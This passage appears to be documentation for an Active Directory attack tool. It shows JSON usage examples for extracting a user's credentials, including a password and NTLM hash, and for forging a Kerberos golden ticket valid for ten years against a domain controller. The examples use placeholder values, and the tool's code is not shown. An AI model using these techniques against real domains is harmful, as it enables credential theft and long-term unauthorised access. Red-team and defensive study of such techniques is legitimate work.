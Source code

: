 ### Example 1: Basic Credential Extraction
```bash
# Extract credentials
{
  "action": "extract_credentials",
  "target_user": "user@domain.com",
  "target_domain": "domain.com"
}

# Result
{
  "success": true,
  "result": {
    "credentials": [
      {
        "username": "user@domain.com",
        "password": "password123",
        "ntlm_hash": "aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99"
      }
    ]
  }
}
```

### Example 2: Golden Ticket Creation
```bash
# Create golden ticket
{
  "action": "golden_ticket",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "target_dc": "dc.domain.com"
}

# Result
{
  "success": true,
  "result": {
    "ticket": "golden_ticket.kirbi",
    "target_user": "user@domain.com",
    "target_domain": "domain.com",
    "validity": "10 years"
  }
}
```

## Error Handling
- **Authentication Errors**: Proper handling of authentication failures
- **Permission Errors**: Secure handling of permission issues
- **File Errors**: Robust error handling for file operations
- **Memory Errors**: Safe handling of memory access issues
